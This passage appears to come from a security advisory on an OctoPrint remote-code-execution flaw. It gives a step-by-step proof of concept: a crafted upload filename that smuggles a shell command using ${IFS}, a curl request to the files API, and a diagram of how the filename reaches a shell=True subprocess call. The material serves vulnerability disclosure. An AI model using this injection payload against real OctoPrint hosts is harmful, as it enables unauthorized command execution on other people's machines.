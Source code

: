 ```gcode
; minimal gcode
G28
M105
```

Restart OctoPrint service.

---

### Step 5: Proof of Concept RCE

1. Export API key:
```bash
export API_KEY='<key previously gathered from webUI>'
```

2. Verify file doesn’t exist:
```bash
ls -la /tmp/test123
```

3. Craft malicious filename payload:  
`INJECT_NAME='octo;touch${IFS}/tmp/test123;#.gcode'`  

Explanation: `${IFS}` is the shell’s Internal Field Separator (usually a space). It bypasses sanitization when injected.

4. Send curl request:
```bash
curl -sS -X POST -H "X-Api-Key: $API_KEY" \
  -F "file=@/tmp/gcode/ok.gcode;filename=\"${INJECT_NAME}\"" \
  "http://127.0.0.1:5000/api/files/local"
```

5. Verify execution:
```bash
ls -la /tmp/test123
```
<img width="1170" height="511" alt="image" src="https://github.com/user-attachments/assets/19fc4c6a-f488-4ae1-9032-ab10b23cd227" />

If `/tmp/test123` exists, the injected command executed successfully → **RCE confirmed**.

---

## Explanation of Flow

```
[User upload with crafted filename]
        │
        ▼
server/api/files.py → accepts raw filename (metacharacters survive sanitize_name)
        │
        ▼
events.py (EventManager.fire "FileAdded") → payload {path} includes raw chars
        │
        ▼
system command subscriber → subprocess.check_call(..., shell=True)
        │
        ▼
[Injected shell metacharacters execute as OS commands]
```

---